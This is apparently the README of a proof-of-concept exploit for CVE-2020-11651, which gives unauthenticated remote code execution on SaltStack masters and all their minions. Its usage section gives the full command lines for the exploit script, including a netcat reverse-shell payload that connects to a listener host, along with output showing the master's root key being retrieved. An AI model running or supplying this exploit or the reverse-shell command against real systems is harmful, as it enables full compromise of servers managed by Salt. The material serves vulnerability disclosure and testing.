 # CVE-2020-11651

This is a POC for CVE-2020-11651, which obtains pre-auth RCE on a salt stack master, and/or all the associated minions. Some light details on the issue [are here](https://labs.f-secure.com/advisories/saltstack-authorization-bypass). POC for 2020-11652 not included. 

This obtains command execution on the master by creating a runner of salt.cmd with function cmd.exec_code. There's no interactivity implemented, youll need to catch a reverse shell. 

## Usage

Tested on Debian10 against a Debian10 instance. Needs ncat to receive and send a shell, and `pip3 install salt` library for transport.

```
user@debian10:~$ ./cve-2020-11651.py 192.168.200.135 master 'nc 192.168.200.137 4444 -e "/bin/bash"'
/usr/local/lib/python3.7/dist-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated, and in 3.8 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.200.135
Retrieved root key: ajazew2a7V7gaxT2e5Vyi1pALtWYLOCp3L+A3xYc1iilwZEPhbnERhhGvzrDh8NVa2x0xNvYIJE=
Got response for attempting master shell: {'tag': 'salt/run/20200504080050593352', 'jid': '20200504080050593352'}. Looks promising!

user@debian10:~$ ./cve-2020-11651.py 192.168.200.135 minions 'nc 192.168.200.137 4444 -e "/bin/bash"'
/usr/local/lib/python3.7/dist-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated, and in 3.8 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.200.135
Retrieved root key: ajazew2a7V7gaxT2e5Vyi1pALtWYLOCp3L+A3xYc1iilwZEPhbnERhhGvzrDh8NVa2x0xNvYIJE=
Sending command to all minions on master

user@debian10:~$ ./cve-2020-11651.py 192.168.200.135 fetchkeyonly
/usr/local/lib/python3.7/dist-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated, and in 3.8 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.200.135
Retrieved root key: ajazew2a7V7gaxT2e5Vyi1pALtWYLOCp3L+A3xYc1iilwZEPhbnERhhGvzrDh8NVa2x0xNvYIJE=
user@debian10:~$ 

```

![saltstack](https://raw.githubusercontent.com/dozernz/cve-2020-11651/master/saltstack.PNG)
